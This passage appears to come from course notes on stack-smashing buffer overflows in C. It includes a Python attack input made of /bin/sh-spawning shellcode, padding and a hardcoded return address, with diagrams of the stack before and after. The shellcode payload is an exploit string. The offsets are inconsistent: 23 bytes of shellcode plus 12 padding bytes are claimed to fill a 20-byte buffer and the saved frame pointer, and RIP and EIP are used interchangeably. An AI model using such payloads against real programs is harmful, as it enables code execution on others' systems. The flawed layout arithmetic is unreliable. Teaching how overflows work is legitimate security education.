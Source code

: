 **Memory Layout Example**:  
```
Higher Addresses
+------------------+
|   instrux[20]    |  // "none" stored here
+------------------+
|      name[20]    |
+------------------+
Lower Addresses
```

*Instructor Insight*: "This is why `gets()` was deprecated in C—there's no way to safely use it. Always prefer functions with explicit size limits."

---

### Stack Smashing: Exploiting Buffer Overflows

**The Attack Vector**:  
- Overflow buffer to overwrite the **Saved Frame Pointer (SFP)** and **Return Instruction Pointer (RIP)**
- When function returns, RIP points to attacker-controlled address
- Execution jumps to malicious code

*Instructor Insight*: "This is why stack smashing is so dangerous—it lets attackers take complete control of program execution."

**Attack Sequence**:  
1. Overflow buffer to overwrite SFP and RIP
2. Set RIP to point to shellcode in memory
3. When function returns, EIP jumps to shellcode

*Example Attack Input*:  
```python
# For a 20-byte name buffer:
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
input = shellcode + b'A' * 12 + b'\x40\xcd\xff\xbf'
```

*Why This Works*:  
- `shellcode`: Malicious code to spawn a shell
- `b'A'*12`: Fills remaining buffer space and SFP
- `\x40\xcd\xff\xbf`: Address of shellcode (little-endian)

**Memory Layout After Attack**:  
```
Higher Addresses
+------------------+
|      RIP         | → 0xbfffcd40 (shellcode)
+------------------+
|     SFP          | → 'AAAA' (invalid address)
+------------------+
|    name[20]      |
|   shellcode + A's|
+------------------+
Lower Addresses
```
